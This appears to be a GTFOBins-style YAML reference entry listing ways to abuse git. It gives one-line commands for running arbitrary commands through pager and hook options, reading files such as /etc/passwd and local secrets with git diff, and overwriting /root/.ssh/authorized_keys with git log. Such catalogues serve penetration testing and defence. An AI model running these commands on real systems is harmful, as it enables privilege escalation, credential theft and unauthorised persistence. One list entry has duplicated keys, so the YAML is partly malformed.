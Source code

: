 ```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager argument can be used to run arbitrary commands.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
      description: This method requires the git config advice.ignoredHook to be false (which it is not by default).
      code: |
        git commit -a -m 'exec /usr/bin/uname -a'
        git log --max-count=1 --pretty=format:"%s"  --output .git/hooks/pre-commit
        git commit --allow-empty -m x
  file-read:
    - description: `git diff` is commonly used to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
---
```

